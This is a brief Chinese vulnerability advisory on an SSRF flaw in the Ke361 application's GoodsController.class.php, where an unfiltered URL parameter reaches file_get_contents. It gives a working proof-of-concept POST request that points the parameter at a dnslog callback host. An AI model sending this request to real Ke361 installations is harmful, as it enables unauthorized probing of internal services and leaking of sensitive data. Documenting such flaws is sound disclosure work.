



# Ke361 GoodsController.class.php SSRF漏洞

## 漏洞描述

Ke361 GoodsController.class.php URL参数存在 SSRF漏洞，通过漏洞可以获取敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Home/Controller/GoodsController.class.php`



URL参数无任何过滤，传入 file_get_contents函数，造成SSRF漏洞，构造请求

```
POST /index.php?s=/Goods/ajGetGoodsDetial
 
url=http://6si2gt.dnslog.cn
```



dnslog接收到请求

